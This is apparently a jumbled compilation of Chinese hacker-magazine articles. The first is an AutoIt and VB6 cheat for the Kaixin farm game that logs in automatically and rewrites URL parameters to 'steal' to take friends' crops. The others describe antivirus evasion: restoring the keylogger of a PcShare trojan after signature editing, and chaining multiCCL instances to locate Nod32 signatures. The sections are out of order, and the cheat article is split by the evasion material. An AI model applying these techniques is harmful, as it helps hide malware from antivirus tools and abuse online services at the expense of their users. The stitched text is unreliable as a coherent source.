- 4. 第 21 块农田需要级别和金钱数分别要达到 33 级和 80 万才能开发，而现在大多数人都没有达到这个级别或金钱数，因此可以忽略从 21 到 28 的农田，等以后一部分好友达到这个级别后再逐块将农田添加进去即可。这样每个人忽略了 8 块地，对于好友数量较多的人来说，可以省去很多时间。


### 实现

先说明一下本文的编程环境—— AutoIt v3，相信很多人都没听说过，更没用过，那就先来看一下其帮助文件中是如何介绍的吧。

AutoIt 是用来编写并生成具有 BASIC 语言风格的脚本程序的免费软件，它被设计用来在 Windows GUI（用户界面）中进行自动操作。通过它可以组合使用模拟击键、鼠标移动和窗口/控件操作等来实现自动化任务，而是其它语言所无法做到或尚无可靠方法实现的（比如 VBScript 和 SendKeys）。

我自己总结了一下，简单的说就是 Windows GUI 的批处理，也许这样更直观些。不多废话了，来看一下程序吧。

首先给出选择执行方式的输入对话框，在输入后判断是否在给定范围内，如果不是则程序会退出，是则继续。接着需要点开好友列表，将列表拖动至右下角，为了给拖动留下充足的时间，需要让程序停止一段时间。最后就是进行选择方式的执行了，每六个好友点击一次滚动条进行翻页。

代码如下：

```autoit
;定义执行方式变量
Dim $Flag
;弹出输入对话框选择执行方式
$Flag = InputBox("开心农场", "请选择: 1、偷盗; 2、除草、除虫、浇水; 3、全部", "1", "", 300, 120)
;判断是否进行了选择，并在选择范围内，是则继续，否则退出程序
If $Flag = "1" Or $Flag = "2" Or $Flag = "3" Then
    ;存在则激活窗口
    WinActivate("开心网 - 开心农场 - 俞新琴 - 傲游 [Maxthon]")
    ;等待窗口被激活
    WinWaitActive("开心网 - 开心农场 - 俞新琴 - 傲游 [Maxthon]")
    ;移动鼠标并打开好友列表
    MouseClick("left", 1165, 286, 1, 1)
    ;休眠 2 秒作为鼠标点击缓冲时间
    Sleep(2000)
    ;点击鼠标拖动好友列表至指定位置
    MouseClickDrag("left", 1090, 341, 1110, 500, 1)
    ;定义循环变量
    Dim $i
    ;初始化循环变量并循环进行选择的执行方式
    For $i = 1 To (77 / 6) Step 1
        ;对一屏中第一个好友进行选择的执行方式
        MouseClick("left", 1093, 606, 1, 1)
        Click()
        ;对一屏中第二个好友进行选择的执行方式
        MouseClick("left", 1093, 636, 1, 1)
        Click()
        ;对一屏中第三个好友进行选择的执行方式
        MouseClick("left", 1093, 666, 1, 1)
        Click()
        ;对一屏中第四个好友进行选择的执行方式
        MouseClick("left", 1093, 696, 1, 1)
        Click()
        ;对一屏中第五个好友进行选择的执行方式
        MouseClick("left", 1093, 726, 1, 1)
        Click()
        ;对一屏中第六个好友进行选择的执行方式
        MouseClick("left", 1093, 756, 1, 1)
        Click()
        ;点击好友列表滚动条，翻至下一屏
        MouseClick("left", 1192, 798, 1, 1)
    Next
EndIf

;进行选择的执行方式
Func Click()
    ;休眠 2 秒作为鼠标点击缓冲时间
    Sleep(2000)
    ;判断选择的执行方式中是否包含偷盗，是则进行偷盗
    If $Flag = 1 Or $Flag = 3 Then
        ;点击偷盗的手图标
        MouseClick("left", 984, 795, 1, 1)
        MouseClick("left", 984, 795, 1, 1)
        ;执行偷盗
        MouseClick("left", 463, 543, 1, 1)
        MouseClick("left", 535, 506, 1, 1)
        ..................
    EndIf
    ;判断选择的执行方式中是否包含除草、除虫及浇水，是则进行除草、除虫及浇水
    If $Flag = 2 Or $Flag = 3 Then
        ;点击除草的喷雾剂图标
        MouseClick("left", 860, 795, 1, 1)
        MouseClick("left", 860, 795, 1, 1)
        ;执行除草
        MouseClick("left", 463, 543, 1, 1)
        MouseClick("left", 535, 506, 1, 1)
        ..................
        ;点击除虫的喷雾剂图标
        MouseClick("left", 922, 795, 1, 1)
        MouseClick("left", 922, 795, 1, 1)
        ;执行除虫
        MouseClick("left", 463, 543, 1, 1)
        MouseClick("left", 535, 506, 1, 1)
        ..................
        ;点击浇水的喷壶图标
        MouseClick("left", 790, 795, 1, 1)
        MouseClick("left", 790, 795, 1, 1)
        ;执行浇水
        MouseClick("left", 463, 543, 1, 1)
        MouseClick("left", 535, 506, 1, 1)
        ..................
    EndIf
    ;休眠 0.5 秒作为鼠标点击的延长时间
    Sleep(500)
EndFunc ;===>Click
```

因为 AutoIt 脚本语言不很常见，因此其中的一些函数有必要说明一下其作用及使用方法。

**InputBox** 的作用是弹出输入对话框，作为用户的交互界面。其语法格式为 “InputBox ( "标题", "提示信息" [, "默认数据" [, "密码字符" [, 宽度, 高度 [, 左边, 上边 [, 超时时间 [, 句柄]]]]] ) ”，常用的参数有标题、提示信息、默认数据，其它的一般都可以忽略。

**WinActivate** 是激活包含指定标题或文本的窗口，语法格式为 “WinActivate("窗口标题"[, "窗口文本"])”，这个就不多说了，有点编程基础的读者一看就明白的。

**WinWaitActive** 是等待指定标题或文本的窗口被激活，语法格式为 “WinWaitActive("窗口标题"[, "窗口文本"], [超时时间])”，超时时间的作用是当程序不一定要等到指定窗口被激活才执行时可以使用此参数做延时。

**MouseClick** 的作用是模拟鼠标移动并点击，语法为 “MouseClick”。

## 编写开心农场外挂

- 从本文您可以学到：
  - 简单了解外挂的编写

最近开心网很流行，还搞出了真假开心，有意思。咱不管是真是假，可以玩，可以解闷就行。在开心网中农场和抢车位这两个游戏特别流行，我也不例外，参与其中，过上一把瘾。在家和公司都可以通过网络来上，在路上则可以通过手机来上，极为方便。不过玩多了发现在游戏里花费的时间不少，所以想着能不能通过外挂程序来减少游戏所花费的时间，也不会因为这样而降低游戏的可玩度。

那么什么是外挂呢？所谓外挂就是指利用电脑技术，专门针对一个或多个网络游戏，通过分析网络游戏软件的部分程序，制作而成的程序。用户利用外挂这种手段可以轻易得到其它正常用户无法得到、或必须通过长期运行程序才能得到的游戏效果。

这里以开心农场中的偷菜为例，和大家简单探讨一下。因为游戏是以FLASH形式出现的，所以要获取其数据有一定难度，而手机上的页面为了加快游戏速度及减少手机流量，所以是纯字符界面的，因此获取数据要容易很多。

经过测试发现，手机的页面在电脑上通过网络同样可以访问，这也就是网上针对农场的外挂都是以访问手机页面以达到效果的原因。下面就和大家一起先看一下如何手工实现简单“外挂”。

### 手工实现“外挂”偷盗

首先访问 http://m.kaixin.com，输入自己的账号及密码进行登录，成功登录后进入农场，再任意选择一好友农场进入，找到农作物成熟或已经偷盗过的“偷盗”链接和种植农作物且未出现需要帮忙的“捣乱”链接。分别单击右键选择“属性”，如图 1 所示，左侧为“偷盗”的网址，右侧为“捣乱”的网址，对比两链接发现，除参数“action=”后的内容不同外，其它完全相同。也就是说，可以通过手工修改参数达到直接用网址访问进行偷盗的目的。

下面我们就来手工偷盗，只要你的网速足够快，保证偷盗成功率达到百分之九十以上，甚至百分之百。不过前提是使用具有快捷组及自动定时刷新窗口的浏览器，我选择的是傲游 1.6.3。

先找一个有农作物即将成熟的好友，将所有即将成熟农作物的“捣乱”链接利用傲游的超级拖放功能在新窗口中打开，然后关闭当前页面，将剩下的页面保存为一个快捷组，完成后将所有页面全部关闭，如图 2 所示。

在傲游中的 Groups 文件夹下找到刚刚保存的 .cgp 快捷组文件，用记事本打开，点击“编辑”菜单中的“替换”，在“查找内容”后的文本框中输入“捣乱”参数的关键字“maketrouble”。在“替换为”后的文本框中输入“偷盗”参数的关键字“steal”，点“全部替换”按钮，最后直接关闭文件进行保存，如图 3 所示。

现在回到傲游，点击“快捷组”，选择保存组时填入的名称那项，立刻会打开很多页面，这时的页面已经是经过修改了的，注意一下地址栏中“action=”后的参数就可以发现。

接下来在任意一个标签页上单击鼠标右键，选择“自动刷新页面”中的“设置自动刷新频率”，这里设为1秒，也是傲游的最高限度了。完成设置后选择“自动刷新页面”中的“使用自动刷新”，在每个标签页上都要选择一下，使各个页面进行自动刷新，如图 4 所示。

现在剩下的就是等待农作物成熟了。因为存在时间差，所以一般在成熟后再刷新一到两分钟就可以收工查看收获了。

## 外挂原理分析及实现

外挂首先要做的是登录系统，否则一切免谈。如果上一次登录的会话还存在，则需要退出后再进行登录。如图 5 所示，网址中包括“logout.do”可以看出来为“退出”后的登录页面，此页面与“login.do”所显示的页面完全相同，所以不管哪个页面都可以通过外挂自动填写账号及密码进行登录。

下一步要注意的是，如果已登录，一定存在“退出”链接，可以通过“退出”来判断是否已经登录。如果未登录，一定存在“下次自动登录”链接，可以通过此链接来判断是否处于登录页面。

完成登录后来到主页面，网址为固定的“http://m.kaixin.com/home.do?”，所以这一步直接用网址而无需查找其它关键字进行判断，因开心农场的网址“http://m.kaixin.com/farm/loadfarm.do”也是固定的，可以直接提交此网址进行访问，如图 6 所示。

访问农场加载页面，网址会根据登录分配的 SID 有所改变，如图 7 所示。稍等片刻后会自动转到“我的农场”，网址中关键字“myfarm.do”不变。在此页可以通过查找关键字“去好友农场”来获取网址进行访问，如图 8 所示。

如图 9 所示，为好友列表第一页，关键字为“下一页”，最后一页的关键字为“上一页”。如果既不在第一页，也不在最后一页，关键字为“下一页”与“上一页”同时存在。根据这种逻辑，可以循环获取好友列表，网址中的关键字为“farm/friendlist.do”。

与好友列表相对，每个好友的农作物列表也是此原理，只不过关键字改成了“下一亩”和“上一亩”，同样可以使用循环来获取农作物列表。该页的网址关键字为“/farm/friendfarm.do”，如图 10 所示。

到这里就已经可以获取好友列表及每个好友对应的农作物列表，偷盗只需替换 “action=” 后的关键字直接访问即可。

### 界面设计及程序实现

下面给出此外挂的界面，如图 11 所示。控件使用情况如下：

- 15个 WebBrowser，用于多“线程”访问，虽然 VB 不支持多线程，但可以保证不会因某个页面访问缓慢或异常而导致程序假死或停止；
- 3个 ListBox 分别用来存储好友名称、每个好友对应的网址及农作物的网址；
- 3个 CommandButton 决定为单个还是批量偷盗；
- 2个 Timer 分别作为获取好友列表及偷盗的循环控制器；
- 2个 CheckBox 则为循环偷盗及不清空农作物网址的辅助功能。

#### 1. 获取好友及农作物列表和偷盗

“FriendList”及“NextPage”为循环获取好友列表，通过当前页面的网址是否与上次访问页面的网址相同来判断是否到最后一页。
“List2.List(Number)”及“PersonNextPage”为循环获取指定好友的农作物列表，配合按钮可以达到获取单个还是全部好友。这里使用 List2 是因为 List1 显示的是名字，List2 显示的是真正的网址，且索引号一致。
“http:///”为页面出错情况，可能发生在获取时遇到自己的农场或新手的农田。
“UrlArr(CurrentNumber)”为偷盗过程，配合按钮可以达到单个或批量偷盗。

代码及注释如下：

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    Select Case URL
    ' 已经登录，则退出登录
    Case "http://m.kaixin.com/login.do"
        Call IsLogin("A", "退出", "http://m.kaixin.com/logout.do", 10)
    ' 未登录，则进行登录，如果登录完成进入主界面，则读取农场数据
    Case "http://m.kaixin.com/home.do"
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 15)
    ' 未登录，则进行登录，如果读取农场数据成功，则进入我的农场
    Case "http://m.kaixin.com/farm/loadfarm.do"
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 20)
    ' 未登录，则进行登录，如果进入我的农场，则进入好友农场
    Case SID
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 25)
    ' 未登录，则进行登录，如果进入好友农场成功，则获取第一页好友列表
    Case FriendList
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 30)
    ' 未登录，则进行登录，如果第一页好友列表获取成功，则获取之后页面的好友列表
    Case NextPage
        ' 判断是否为最后一页，是则退出本过程，否则继续下一页好友获取
        If FrontPage = NextPage Then
            FrontPage = ""
            NextPage = ""
            GoTo EndPage
        Else
            FrontPage = NextPage
        End If
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 30)
    ' 未登录，则进行登录，如果进入指定对象，则获取第一页农作物列表
    Case List2.List(Number)
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 35)
    ' 未登录，则进行登录，如果第一页作物列表获取成功，则获取之后页面的作物列表
    Case PersonNextPage
        ' 判断是否为最后一页，否则继续下一页获取，是则判断是否为批显
        If PersonFrontPage = PersonNextPage Then
            ' 如果是批显获取，继续下一个，否则退出本过程
            If Flag = True Then
                Number = Number + 1
                If Number < List2.ListCount Then
                    If List1.List(Number) <> "自己的昵称" Then
                        PersonFrontPage = ""
                        PersonNextPage = ""
                        Timer1.Enabled = True
                        GoTo EndPage
                    Else
                        Debug.Print Date & " " & Time & " 自己!"
                    End If
                Else
                    GoTo EndPage
                End If
            Else
                GoTo EndPage
            End If
        Else
            PersonFrontPage = PersonNextPage
        End If
        Call IsLogin("DIV", "下次自动登录", "http://m.kaixin.com/login.do", 35)
    ' 访问页面出错
    Case "http:///"
        If Flag = True Then
            Number = Number + 1
            If Number < List2.ListCount Then
                If List1.List(Number) <> "自己的昵称" Then
                    PersonFrontPage = ""
                    PersonNextPage = ""
                    Timer1.Enabled = True
                    GoTo EndPage
                Else
                    Debug.Print Date & " " & Time & " 自己!"
                End If
            Else
                GoTo EndPage
            End If
        Else
            GoTo EndPage
        End If
    Case UrlArr(CurrentNumber)
        StealFlag1 = True
        Timer2.Enabled = True
        GoTo EndPage
    Case "http://m.kaixin.com/logout.do"
        WebBrowser1.Navigate "http://m.kaixin.com/login.do"
    End Select
EndPage:
End Sub

Private Sub IsLogin(tagName As String, innerText As String, URL As String, Step As Integer)
    Dim Tag As String 
    Tag = FindTag(tagName, innerText, "TEXT")
    If InStr(1, Tag, innerText) <> 0 Then
        If InStr(1, LCase(Tag), "http://") <> 0 Then
            WebBrowser1.Navigate Tag
        Else
            WebBrowser1.Navigate URL
        End If
        Call Sleep(100)
    Else
        Select Case Step
        Case 10
            Set Doc = WebBrowser1.Document
            Doc.getElementById("email").setAttribute "value", "账号"
            Doc.getElementById("password").setAttribute "value", "密码"
            Doc.getElementById("login").Click
            Set Doc = Nothing
        Case 15
            WebBrowser1.Navigate "http://m.kaixin.com/farm/loadfarm.do"
        Case 20
            SID = FindTag("A", "myfarm.do", "LINK")
            WebBrowser1.Navigate SID
        Case 25
            FriendList = FindTag("A", "farm/friendlist.do", "LINK")
            WebBrowser1.Navigate FriendList
        Case 30
            Set Doc = WebBrowser1.Document
            Dim i As Long
            For i = 0 To Doc.All.length - 1
                If UCase(Doc.All(i).tagName) = "A" Then
                    If Doc.All(i).innerText = "下一页" Then NextPage = Doc.All(i).href
                    If InStr(1, Doc.All(i).href, "/farm/friendfarm.do") <> 0 Then
                        List1.AddItem Doc.All(i).innerText
                        List2.AddItem Doc.All(i).href
                    End If
                End If
            Next
            Set Doc = Nothing
            WebBrowser1.Navigate NextPage
        Case 35
            Set Doc = WebBrowser1.Document
            Dim n As Long
            For n = 0 To Doc.All.length - 1
                If UCase(Doc.All(n).tagName) = "A" Then
                    If Doc.All(n).innerText = "下一亩" Then PersonNextPage = Doc.All(n).href
                    If InStr(1, Doc.All(n).href, "action=") <> 0 Then
                        List3.AddItem Doc.All(n).href
                    End If
                End If
            Next
            Set Doc = Nothing
            WebBrowser1.Navigate PersonNextPage
        End Select
    End If
End Sub
```

#### 2. 根据指定内容查找关键字或网址

设置 Document 对象可以遍历网页中所有的对象、元素、属性。其中 innerText 属性返回的是链接上的文字，一般与 “DIV” 元素配合。href 属性则是返回指定文字的链接，一般与 “A” 元素配合。

### 使用 AutoIt 辅助自动化

除了上述 VB 实现方式，还可以利用 AutoIt 编写简单的脚本来辅助操作。

- `Click("按钮"[,X坐标,Y坐标,[点击次数[,速度]]])`：按钮参数中左键为“left”，右键为“right”，如果要实现双击，点击次数设置为2即可。
- `Sleep(延迟)`：挂起程序指定的时间，单位是毫秒。
- `MouseClickDrag("按钮",X1坐标,Y1坐标,X2坐标,Y2坐标[,速度])`：拖动对象到指定位置。

在程序执行过程中，如果需要处理其它事情，可以设置系统热键来终止程序：

```autoit
;设置热键
HotKeySet("^!e", "Terminate")

;终止执行并退出程序
Func Terminate()
    Exit 0
EndFunc ;==>Terminate
```

#### 使用方法

可以先打开开心农场的页面，直到FLASH全部加载完成，然后双击程序图标。但这种方式可能会因为 AutoIt 输入框的 BUG 导致无法激活指定窗口，因此建议作为傲游（Maxthon）的外部工具进行调用。

1. 打开“文件夹选项”，找到“AU3”扩展名，查看运行脚本的命令，例如：`"C:\autoit3\AutoIt3.exe" "%1" %*`。
2. 打开傲游，在“外部工具”中添加新工具。
3. “命令”填写 AutoIt3.exe 的路径，“参数”填写编写的脚本路径。

完成后在傲游工具栏点击图标即可调用。

### 结尾

最后有几点说明：获取坐标时最好选择作物叶子大的时候（如樱桃），这样坐标相对准确。坐标会随屏幕分辨率改变，因此不同分辨率下需重新获取。另外，动态获取好友数量的功能留给大家自行处理。

> [文章中所涉及的相关代码及工具都已经收录在本期光盘]

**编辑点评：** 利用 AutoIt 实现 GUI 的操作，批量处理农场作物，虽然不是很强大，但不失为一个好的方法。看完本文，小编我也对 AutoIt 产生了兴趣，一定要学上一课。

> 免杀首语：HI，又到了一年当中最热的时候，感觉今年貌似比去年更热了。因为我住的地方实在热得不行了，这阵子一直都没睡好，没空调就是这样啦。最近比较迷糊，可能是因为天气的缘故，好像都不想动了。春天的时候，容易打瞌睡，夏天的时候，容易疲劳，冬天的时候，天冷手也冷，想来还是秋天最好了，不打瞌睡，不容易疲劳，也不那么冷，看来是非常适合研究技术的时间。不过什么时候才到秋天呢？秋天的时候不算长，所以如果只想在秋天学习的话是不行的。技术性的东西，不进则退，这话是没错的。所以该想个好办法可以一年四季都那么的有激情，有学习的动力，你想到了吗？

## 文件比较
### 在免杀技术中的应用

从本文你可以学到：免杀中找回丢失的功能。

最近在做免杀 PcShare 的时候发现自己做的免杀配置文件出了点问题，配置服务端的时候选中“启用键盘记录功能”，生成的服务端可以正常上线，但是键盘记录功能却没有效果。用原来的 PcMain.dll 文件替换自己免杀的文件后，生成的服务端却可以正常开启键盘记录。

自己修改的那个免杀版已经是很多次修改，并且原来定位的特征码也找不到了，难道要重新定位？那样的工作量可想而知。不过最终还是决定重新定位，但是在定位的时候却进入了死循环。这里简单的说一下跳出死循环的方法：

- 1. 修改定位区段的开始位置；
- 2. 修改分块的长度，可以在原来的基础上加一或者减一；
- 3. 如果是针对服务端的定位，可以对服务端加壳后重新定位。

终于经过漫长的努力之后，定位完了全部的特征码，然而在修改的时候又犯愁了，特征码太多了！这个就不说了，不是本文的重点，那么怎么快速定位修改特征码呢？

忽然想到了 UltraEdit 的文件比较功能，和原来的文件直接比较一下，看看修改的位置就知道到底是哪里修改过了。这么做的好处就是省去了定位的麻烦，毕竟特征码的定位和修改是一项费时的工作。打开 UltraEdit，选择菜单的“文件比较”功能，选择自己要比较的文件。然后选择“二进制”或者“智能二进制”就可以比较文件了，比较的结果可以直观的看到文件的偏移量和不同数据的内容。

但是同样也有个缺点，那就是对于大的文件不能直观的看到底有多少不同之处，毕竟这样一屏幕的数据还要不停的翻滚，想找到不同是非常困难的。而想不遗漏任何不同，更是难上加难。难道就只能用这样的方式去找不同之处？

其实我们还有更好的选择，那就是 Windows 自带的 fc 命令，它的功能就是比较两个文件或两个文件集并显示它们之间的不同。简单的说下 fc 命令的参数，在命令提示符下输入 `fc /?` 就可以看到命令的详细用法：

`FC [/A] [/C] [/L] [/LBn] [/N] [/OFF[LINE]] [/T] [/U] [/W] [/nnnn] [drive1:][path1]filename1 [drive2:][path2]filename2`
`FC /B [drive1:][path1]filename1 [drive2:][path2]filename2`

| 参数 | 说明 |
| :--- | :--- |
| /A | 只显示每个不同处的第一行和最后一行。 |
| /B | 执行二进制比较。 |
| /C | 不分大小写。 |
| /L | 将文件作为 ASCII 文字比较。 |
| /LBn | 将连续不匹配的最大值设为指定的行数。 |
| /N | 在 ASCII 比较上显示行数。 |
| /OFF[LINE] | 不要跳过带有脱机属性集的文件。 |
| /T | 不要将 tab 扩充到空格。 |
| /U | 将文件作为 UNICODE 文字文件比较。 |
| /W | 为了比较而压缩空白 (tab 和空格)。 |
| /nnnn | 指定不匹配处后必须连续匹配的行数。 |

我们用到的参数只用一个 `/b`。执行命令：`fc pcmain.dll pcmain-y.dll /b >>1.txt`，其中 pcmain.dll 是我修改后的免杀文件，pcmain-y.dll 是原来的配置文件。打开命令行执行完毕后生成的那个 1.txt 就可以看到两个文件的不同之处了。其中第一列为文件的偏移量，第二列和第三列分别为这两个文件在相同偏移量的值，用这种方法可以快速定位出已经修改的文件的特征码。当然，这种比较也有缺点，就是对于字符串不能直观的显示出来。

现在我们再执行没有 `/b` 参数的命令，将结果输出到 diff.txt 文件，命令为：`fc pcmain.dll pcmain-y.dll >>diff.txt`

> 注意：在比较文件的时候最好带上文件的绝对路径；否则可能会出错。

打开生成的 diff.txt 就可以直观看出字符串的变化了。经过定位，发现最终导致键盘记录失败的是对函数 `Global\%s-key-event` 的修改。对于这样的函数，最好的方法就是移位，这不是本文的重点，就不做介绍了。在这里简要提示一下，一般在免杀后导致木马功能缺失的原因就是对系统调用或者是导入导出函数的修改不当造成的。在将函数移位后，就可以成功的开启键盘记录功能了。

在输入的时候按了两次删除，所以记录的文本和最后看到的内容有区别。在这里只是简单的提供一个在有免杀文件和源文件的条件下如何快速定位修改的数据的位置和内容。同样，通过这种方法可以定位别人修改过的免杀服务端，学习别人的修改方法。好了，文章就到这里，如果大家有什么问题欢迎来论坛交流。

> 编辑点评：
> 之前小编也确实遇到过这个情况，就是做了免杀之后，有些功能丢失了。不过因为时间关系，解决方案就一直搁置在那里了，希望本文也能给处于这种情况的你一丝光明。另外，能比较文件的除了文中提到的 UltraEdit，还可以用 Winhex，当然也有一些专门的比较工具。

---

### 3、替换偷盗关键字

这一部分很简单，但是还是有必要拿出来说明一下。这里利用数组代替控件操作，主要是控件操作比较耗系统资源，且运算速度远远低于数组，在大量数据操作时，可能会占用相当高的 CPU 和内存资源，甚至可能引起程序假死！所以一个过程是极其有必要的，在一次替换后可以多次使用，何乐而不为呢？

代码及注释如下：

```vb
' 查找页面文字或链接
Private Function FindTag(tagName As String, Str As String, TagType As String) As String
    Set Doc = WebBrowser1.Document
    Dim i As Long
    For i = 0 To Doc.All.length - 1
        If UCase(Doc.All(i).tagName) = tagName Then
            Select Case TagType
                Case "TEXT"
                    If InStr(1, Doc.All(i).innerText, Str) <> 0 Then
                        FindTag = Doc.All(i).innerText
                        Exit Function
                    End If
                Case "LINK"
                    If InStr(1, Doc.All(i).href, Str) <> 0 Then
                        FindTag = Doc.All(i).href
                        Exit Function
                    End If
            End Select
        End If
    Next
    Set Doc = Nothing
End Function

' 替换 URL 中偷盗关键字
Private Sub StrReplace()
    ReDim UrlArr(List3.ListCount + 1)
    Dim i As Integer ' 循环变量
    Dim FrontStr As Integer ' 需替换关键字开始位置
    Dim BehindStr As Integer ' 需替换关键字结束位置
    ' 循环替换每个 URL 中的关键字
    For i = 0 To List3.ListCount - 1 Step 1
        ' 获取 URL
        UrlArr(i) = List3.List(i)
        ' 查找关键字开始位置
        FrontStr = InStr(1, LCase(UrlArr(i)), "action=")
        ' 查找关键字结束位置
        BehindStr = InStr(FrontStr, UrlArr(i), "&")
        ' 替换关键字，拼接 URL
        UrlArr(i) = Mid(UrlArr(i), 1, FrontStr - 1) & "action=steal" & Mid(UrlArr(i), BehindStr)
    Next
End Sub
```

至此，程序全部完成，可以编译测试了。程序的编写及测试环境为 XPSP3+VB6SP0+2M ADSL，偷盗成功率因 VB 不支持多线程的原因下降了很多。

### 写在最后

本程序为小生第一次写外挂，只能算作最简单的级别，其中代码结构比较乱，望各位大虾不要见怪。程序中还有很多不足之处，如真正的多线程访问及只能偷盗，而不能除草、除虫、浇水，还有账号、密码不能动态改变等，有兴趣的读者完全可以自行扩展，不过到时候不要忘了给我一份哦！
（文章中所涉及的相关代码及工具都已经收录在本期光盘）

> 编辑点评：
> 本文纯粹为网页代码的分析，只能算外挂中最浅显的东西，带着大家一起走进外挂神秘之门。

---

## 让 multiCCL 自动定位功能过 Nod32

从本文你可以学习到：免杀过 Nod32

用过 multiCCL 的人都知道它便捷的自动定位功能，其是通过模拟两次鼠标点击来实现自动定位循环的。一次是模拟点击杀毒软件的“扫描病毒”按钮，还有一次是模拟点击 multiCCL 程序界面从而进入下一步循环。但是在实际操作过程中，很多杀毒软件并不是只点击一下就能完成扫描的，比如要让 Nod32 3.0 进行一次扫描，需要依次点击“自定义扫描”→“扫描”，扫描完成后还要点击一次“确定”。这样的后果是很严重的，难道我们就无法使用 multiCCL 自动定位了吗？要知道，用 MYCCL 手工定位是很痛苦的！

好，既然一个 multiCCL 只能实现两次模拟点击，那我开两个 multiCCL 不就能实现四次了？下面我们来实现用 multiCCL 配合 Nod32 3.0 来自动定位。

先打开一个 multiCCL 定位器窗口，为了容易分辨，我们叫它 CCL1。随便选择一个 exe 文件作为 CCL1 的定位文件，建立一个名为“output1”的文件夹作为 CCL1 的输出目录，然后一路回车，直到 CCL1 弹出“autoStartScan”对话框。单击“设置”按钮，弹出 CCL1 的模拟点击设置对话框。

用鼠标左键单击“设置”对话框右上角的第一个图标不放，将它拖到 Nod32 界面上的“自定义扫描”按钮上。这样 CCL1 的第一次模拟鼠标点击就被设定为点击 Nod32 上的“自定义扫描”按钮。然后我们再用鼠标单击 Nod32 界面上的“自定义扫描”按钮，Nod32 弹出自定义扫描对话框。

这时新建一个名为“serveroutput”文件夹，这里我们设定 Nod32 的扫描目标为“serveroutput”文件夹，再用鼠标左键单击 CCL1“设置”对话框右上角的第二个图标不放，将它拖到 Nod32 的自定义扫描对话框的“扫描”按钮上并设置杀毒时间为 3 秒（注意：不要点击“设置”对话框上的应用按钮，后面还要用到它）。

我们用鼠标单击 Nod32 上的“扫描”按钮，Nod32 的自定义扫描对话框就自动收缩到 Nod32 的程序主窗口了。很快“serveroutput”文件夹扫描完毕，Nod32 的程序主窗口出现一个“确定”按钮，我们需要点击一下这个按钮才能进行下一步的扫描。然而 CCL1 的两次模拟点击已经用完了，于是需要再打开一个 multiCCL，这里叫它 CCL2。

随便选一个 exe，设置 output 目录，一路回车，再设置 CCL2 的第一次模拟点击为点击 Nod32 主界面上的“确定”按钮。这样，当 CCL2 进行第一次模拟点击之后，Nod32 主程序又回到了初始状态。如果此时 CCL1 也执行模拟点击的话，不就进入扫描了？所以把 CCL2 的第二次模拟点击设置为点击 CCL1 的测试按钮，设置杀毒时间为 4 秒。

由此观之，当我们鼠标单击 CCL2 的测试按钮后，CCL2 模拟点击一次 Nod32 的“确定”按钮，Nod32 回到手动扫描初始状态，然后 CCL2 第二次模拟点击 CCL1 的“测试”按钮，CCL1 首先模拟点击 Nod32 界面上的“自定义扫描”按钮，Nod32 弹出自定义扫描对话框后，CCL1 再模拟点击弹出的自定义扫描对话框上的“扫描”按钮，自定义扫描对话框自动收缩到 Nod32 主界面。扫描完成后，Nod32 主界面出现“确定”按钮。到此，CCL2+CCL1 互相组合而成的 4 次模拟点击结束。

不要关闭任何窗口，再打开一个 multiCCL，我们叫它 CCL3。这次选择你真正需要定位的 server.exe，输出目录为“serveroutput”文件夹，然后一路回车，直到 CCL3 弹出“autoStartScan”对话框，单击“设置”。

各位想想，如果想让扫描实现循环，CCL3 的第一次模拟点击设置为点击什么呢？答案是 CCL2 “设置”对话框上的“测试”按钮。CCL3 的第二次模拟点击就是 CCL3 自身的窗口，设置杀毒时间为 30（这个根据杀毒软件的查杀速度和你机子的性能而定），单击 CCL3 上的“应用按钮”。

此时桌面的情况应该是这样：
- CCL1 的设置对话框打开，杀毒时间为 3 秒，且 CCL1 的主界面（就是那个 cmd 黑框）被最小化。
- CCL2 的设置对话框打开，杀毒时间为 4 秒，且 CCL2 的主界面（就是那个 cmd 黑框）也被最小化。
- CCL3 的设置对话框是关闭的，剩下“autoStartScan”对话框和 multiCCL 程序主界面。

然后我们单击 CCL3 “autoStartScan” 对话框上的 “开始” 按钮，不出意外的话，CCL3 → CCL2 → CCL1 开始互相配合，具体流程应该如下：

CCL3 点击了 CCL2 “设置” 对话框上的 “测试” 按钮后等待 30 秒，CCL1 和 CCL2 实现 Nod32 上的 3 次模拟点击，Nod32 在 30 秒内扫描完毕，杀掉部分特征区间。30 秒到达，CCL3 点击自身，分析被杀的特征码，然后模拟点击 CCL2 “设置” 对话框上的 “测试” 按钮，如此能够周而复始地循环……

有些问题其实换一个思路就迎刃而解了，当然这不仅仅在于免杀、入侵、破解，甚至对于人生我觉得也是这样。现在免杀越来越难了，写这篇文章的目的旨在让各位轻松一点，痛苦少一点。或许文章写的太过抽象，我顺便做了个语音教程，大家可以实际操作下。有什么问题请到黑手论坛 www.nohack.cn/bbs 找我，我的 id 是 sadshell，多多交流。

> 【文章所涉及到的录像教程已收录在光盘中】
>
> **编辑点评：** 这篇文章的免杀思路不错，相对于其它免杀方法来说，可能会让读者感觉不知所云，但所幸作者提供了配套的录像教程，让大家看着文章，对照录像学习，效果还是很不错的。

---

## Cracker 10086

### 暑假热语

七八月一直是读书郎最喜欢的月份，因为七八月是暑假，无论你是幼儿园的，或者是小学生，又或者是中学生，又或者是大学生，甚至或者是教师、研究生、博士等等，在这两个月里面都可以享受到休息的待遇，所以这无形是最令人羡慕的事情。但是，话开两头，羡慕归羡慕，悠长的假期会不会给你带来了惰性？又或者是悠长的假期给你带来了动力？所以，合理安排好这两个月的时间是非常重要的事情。

随着金融危机的发生，很多企业随之破产，很多企业面临更大的挑战，于是裁员和减薪是今年议论的最多的话题，所以我知道，现在找份工作非常困难。假如你是打算搞技术的话，我建议还是趁休息的悠长假期好好深入一下，毕竟在金融危机下，很多企业可能不会再招没有经验的新人，所以努力提高技术是对技术员目前最好的要求。

